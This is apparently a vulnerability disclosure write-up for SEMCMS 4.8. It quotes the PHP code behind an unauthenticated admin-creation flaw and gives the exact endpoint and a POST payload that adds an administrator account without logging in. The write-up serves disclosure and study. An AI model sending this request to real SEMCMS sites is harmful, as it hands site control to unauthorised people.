 # semcms
Sem CMS 4.8 Unauthenticated User Gains Admin Privilage

Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

v4.8 Download Link: http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
Causes of vulnerabilities:

/6EeOq0_Admin/Top_include.php

Vulnerable Code Blocks:

```
<?php
include_once './Include/inc.php';
include_once 'SEMCMS_Function.php';
$SCQuanXian=checkuser($db_conn);
?>
```

One can observe that the code installs SEMCMS_Funtion.php before checking if the admin is a valid user in the admin page because authentication funnction is called from there.

Below you can observe the authentication check function which starts at line 984 and ends at line 1013

```
}elseif($CF=="users"){  
 
   if($Class=="login"){ //登陆   
       
       $US=test_input($_POST['UserName']);
       $PS=test_input($_POST['UserPass']);
     
        if(empty($US) || empty($PS)){

                 echo "<script language='javascript'>alert('账号或密码不能为空!');top.location.href='index.html';</script>";

        }else{

                $PS=md5($PS);
                $query=$db_conn->query("select * from sc_user where user_admin='$US' and user_ps='$PS'");
                if (mysqli_num_rows($query)>0 ){

                      $row=mysqli_fetch_assoc($query);

                      setcookie("scusername", $row['user_name'],time()+3600*24,"/");
                      setcookie("scuseradmin", $row['user_admin'],time()+3600*24,"/");
                      setcookie("scuserpass", $row['user_ps'],time()+3600*24,"/");//设定时间为24个小时
                      header("Location:SEMCMS_Main.php");  

                  }else{

                       echo "<script language='javascript'>alert('账号或密码错误!');top.location.href='index.html';</script>";

                   }
        }
```



If we look further in 'SEMCMS_Funtion.php' to check what are the avaliable functions, the code snippet below found at 782 which is used to add or modify an admin:

```
elseif ($CF=="user"){

         $table="sc_user";

        if($Class=="add" || $Class=="edit"){ //信息添加

           $user_name=test_input($_POST['user_name']);
           $user_admin=test_input($_POST['user_admin']);
           $user_ps=  test_input($_POST['user_ps']);
           $user_tel=test_input($_POST['user_tel']);
           $user_email=test_input($_POST['user_email']);
           $field="user_name,user_admin,user_ps,user_tel,user_email";
           $val=array($user_name,$user_admin,$user_ps,$user_tel,$user_email); 

        }

        switch ($Class) {

          case 'add':

            if(empty($user_name) || empty($user_admin) || empty($user_ps) || empty($user_email)  ){  //判断空字段 

               header("Location:SEMCMS_User.php?type=add&err=003"); 

             }else{  //写入数据库
                
              $Ant->AntAdd($table,$field,$val,$db_conn); //写入数据库 
              header("Location: SEMCMS_User.php?lgid=".$languageID."&err=001");     
                
            }

            break;
```

When we visit the page http://url/6EeOq0_Admin/index.html  the application installs the login form. When we send a dumb login request we see that the credentials are posted to the end-point "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=users&Class=login HTTP/1.1"

![image](https://github.com/turabiaslan/semcms/assets/32524544/5db25ff0-a3e0-40b5-a54a-053e54c4166a)

Observe the parameters: CF=users and Class=login. So The application calls SEMCMS_Top_include.php and then that page calls SEMCMS_Funtion.php. Let's send this request to Burp Suite's Repater.


If we change CF parameter to 'user' and Class parameter to 'add' like as shown in the last code snippet, we should be able to send an admin adding request to the "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=user&Class=add" end-point.



There are five parameters present in the body of the request; user_name, user_admin, user_ps, user_tel, user_email. When we add this parameters to the request and supply values them respectively, we should be able to add an admin user without authenticating the application.
Below you can find the payload. user_ps value is the MD5 hash of string 1.

```
user_name=turabi&user_admin=Turabi&user_ps=c4ca4238a0b923820dcc509a6f75849b&user_tel=b&user_email=turabi@beam.com
```

![image](https://github.com/turabiaslan/semcms/assets/32524544/08a9bdf2-00f0-484e-bb7f-7f6ca7f44a31)



Let's try the new user on the application:

![image](https://github.com/turabiaslan/semcms/assets/32524544/4961d962-4728-429a-a641-d021a79ae590)


We successfully login to our newly added 

![image](https://github.com/turabiaslan/semcms/assets/32524544/87330e72-c1d8-4a14-b3c2-6e786cc212f4)
